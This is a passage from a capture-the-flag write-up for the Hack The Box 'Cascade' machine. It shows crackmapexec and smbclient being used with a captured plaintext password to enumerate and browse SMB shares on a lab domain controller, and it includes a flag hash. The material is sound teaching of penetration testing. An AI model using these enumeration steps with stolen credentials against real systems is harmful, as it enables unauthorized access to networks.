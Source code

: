 ```python
db922ff67590f24e9c3d79cd1cb8e8bc
```

# User Escalation to arksvc
We could start enumerating the shares available by the `s.smith` user and find out that we now have access to the `audit$` share.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec5.1.1 smb 10.10.10.182 -u s.smith -p sT333ve2 --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```

We do an `smbclient` and find out some files.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # smbclient -U 's.smith' //10.10.10.182/audit$
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 23:31:26 2020
  ..                                  D        0  Wed Jan 29 23:31:26 2020
  CascAudit.exe                      An    13312  Wed Jan 29 03:16:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 23:30:20 2020
  DB                                  D        0  Wed Jan 29 03:10:59 2020
  RunAudit.bat                        A       45  Wed Jan 29 04:59:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 12:08:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 12:08:38 2019
  x64                                 D        0  Mon Jan 27 03:55:27 2020
  x86                                 D        0  Mon Jan 27 03:55:27 2020

                13106687 blocks of size 4096. 8165759 blocks available
```

We could mount the share onto our box and take a look at it.
The `CascAudit.exe` is an `.Net` Binary.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade/smb/audit_s.smith]
└──╼ # ls
CascAudit.exe  CascCrypto.dll  DB  RunAudit.bat  System.Data.SQLite.dll  System.Data.SQLite.EF6.dll  x64  x86
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade/smb/audit_s.smith]
└──╼ # file CascAudit.exe 
CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade/smb/audit_s.smith]
└──╼ # cd DB/
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade/smb/audit_s.smith/DB]
└──╼ # ls
Audit.db
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade/smb/audit_s.smith/DB]
```